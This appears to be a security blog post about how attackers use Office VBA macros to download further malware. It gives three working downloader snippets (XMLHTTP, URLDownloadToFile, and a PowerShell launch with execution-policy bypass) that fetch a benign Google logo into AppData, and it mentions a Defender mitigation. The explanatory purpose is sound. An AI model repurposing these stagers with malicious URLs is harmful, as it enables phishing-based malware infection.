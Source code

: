 ```yaml
---
layout: post
title: Office Docs, The Macro View
categories: [Malware, Macro's, VBA]
excerpt: Attackers often use Office Macros as a means to infect computers and download additional malicious code. In this post I'll explore the ways an attacker can use macros to download more content and we'll walk through some sample code.
---
```

(Estimated Reading Time: 7 minutes)

- [Why Attackers Use Office Macros](#why-attackers-use-office-macros)
- [Approaches To Downloading More Malicious Code](#approaches-to-downloading-more-malicious-code)
- [Resources](#resources)

## Why Attackers Use Office Macros

We all know Office Macro’s can be dangerous and can be used by attackers to download additional malware. In this blog post, I wanted to explorer the basic ways that Macro’s can be used to download additional code by looking at some basic example code.  

Macros have become very popular in malware because they are easy to create and can be crafted into phishing messages to convince the user to run the macro. Despite security warning; the user will almost always click, “Enable Content” 

![MacroWarning](/images/macro_warning.PNG)

Microsoft Word, Excel, Publisher, and Power Point are all office document files that support including Visual Basic Applications (VBA) code as Macros. Microsoft hosts some good documentation here on getting started with [Macros in Office](https://docs.microsoft.com/en-us/office/vba/library-reference/concepts/getting-started-with-vba-in-office 
).  

## Approaches To Downloading More Malicious Code

There are three (maybe four) primary methods to download files using VBA Macros. The first is an XML HTTP Request (XHR), which is a method of fetching website data dynamically. Below is a very simple example of a VBA script to download the famous google logo image as a png and store it in the users home directory in a normally hidden folder, call AppData. An attacker could easily replace the image url here in this example with a malicious executable. 

```
Sub Download_File_XHR()

Dim myURL As String
myURL = "https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png"

Dim HttpReq As Object
Set HttpReq = CreateObject("Microsoft.XMLHTTP")
HttpReq.Open "GET", myURL, False
HttpReq.send

Dim output As String
output = Environ("AppData")

If HttpReq.Status = 200 Then
    Set oStream = CreateObject("ADODB.Stream")
    oStream.Open
    oStream.Type = 1
    oStream.Write HttpReq.responseBody
    oStream.SaveToFile output + "\google_image.png", 2
    oStream.Close
End If

End Sub 
```

The second method involves importing a specific features from a Windows API, and then calling that API. In this case we are importing the function URLDownloadToFile from the urlmon.dll library. This code will have the same effect as above and will download the google logo png to the users AppData folder.

```
Declare PtrSafe Function URLDownloadToFile Lib "urlmon" Alias "URLDownloadToFileA" _
(ByVal pCaller As Long, ByVal szURL As String, ByVal szFileName As String, _
ByVal dwReserved As Long, ByVal lpfnCB As Long) As Long

Sub Download_File_API()
    Dim myURL As String
    myURL = "https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png"

    Dim output As String
    output = Environ("AppData")
    output = output + "\google_image.png"
    
    Dim returnValue As Long
    returnValue = URLDownloadToFile(0, myURL, output, 0, 0)

End Sub
```

The third method involves calling out to Powershell and using another program (in this case PowerShell) to download the desired file. Like the two examples above this code has the same end result of downloading the google logo into the AppData folder. In this example however you can clearly see PowerShell pop up and know that another process has been started. Attackers will typically get fancier then this example code and will often Encode parameters to hide URL's. The Windows 10, Attack Surface Reduction rule for [**Block all Office applications from creating child processes**](https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-atp/attack-surface-reduction#block-all-office-applications-from-creating-child-processes) would mitigate the below example as it would prevent Office from launching PowerShell.

```
Sub Download_File_Powershell()
    Dim output As String
    output = Environ("AppData")
    output = output + "\google_image.png"

    Dim psCode As String
    psCode = "invoke-webrequest -Uri 'https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png' -OutFile " + output + " -UseDefaultCredentials"

    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run ("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoExit -executionpolicy bypass -command " + psCode)

End Sub
```

I mentioned a forth method, which could be using Excel 4.0 (XL4) macros. This is a legacy feature of Excel but attackers have figured out how to leverage the feature to Download additional files as well. I'm not going to give an example of this method today but will link to this article where you could [read more about this technique](https://www.lastline.com/labsblog/evolution-of-excel-4-0-macro-weaponization/).

Lastly, just a note of caution, Even though the above code is totally benign and not malicious my AV software decide to protect me from my own non-malicious example code.  When I saved the above samples into an Example.xlsm file Windows Defender saved me from myself. 

![AVProtection](/images/macro_example_triggers_av.PNG)


## Resources
[Stackoverflow Discussion on Downloading File with VBA](https://stackoverflow.com/questions/17877389/how-do-i-download-a-file-using-vba-without-internet-explorer)